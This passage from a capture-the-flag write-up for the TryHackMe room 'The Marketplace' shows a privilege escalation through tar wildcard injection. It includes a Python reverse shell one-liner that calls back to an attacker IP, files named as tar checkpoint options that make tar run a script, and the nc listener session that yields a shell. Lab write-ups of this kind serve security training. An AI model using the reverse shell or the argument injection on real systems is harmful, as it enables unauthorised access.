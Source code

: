 **User `jake` is able to run `/opt/backups/backup.sh` as `michael`!** Let's check that out!

```
jake@the-marketplace:~$ ls -lah /opt/backups/backup.sh 
-rwxr-xr-x 1 michael michael 73 Aug 23  2020 /opt/backups/backup.sh

jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

**The `tar` command is using a wildcard(`*`)**, which means we can escalate to `michael`!!

> Note: We can't exploit the relative path, as it has `secure_path` variable.

According to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), we can spawn a interactive shell via abusing the wildcard!

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a54.png)

1. Create a python reverse shell:

```
jake@the-marketplace:/opt/backups$ cat << EOF > revshell.sh
> python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.18.61.134",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
> EOF

jake@the-marketplace:/opt/backups$ chmod +x revshell.sh
```

2. Create 2 files to trigger the reverse shell:

```
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint=1"

jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh revshell.sh"
```

3. Setup a `nc` listener and run the `sudo` command:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/The_Marketplace]
└─# nc -lnvp 443
listening on [any] 443 ...

jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh

┌──(root💀siunam)-[~/ctf/thm/ctf/The_Marketplace]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.102.127] 57820
michael@the-marketplace:/opt/backups$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
michael
```